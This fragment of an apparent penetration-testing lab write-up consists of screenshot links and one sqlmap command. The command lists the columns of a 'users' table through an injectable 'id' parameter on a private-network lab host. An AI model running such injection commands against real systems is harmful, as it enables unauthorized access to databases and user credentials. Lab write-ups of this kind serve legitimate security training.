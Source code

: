     ![](17.PNG)
- ```python /usr/bin/sqlmap -u "http://10.0.2.7/cat.php?id=1" --columns -T "users"-D "photoblog"```
    ![](18.PNG)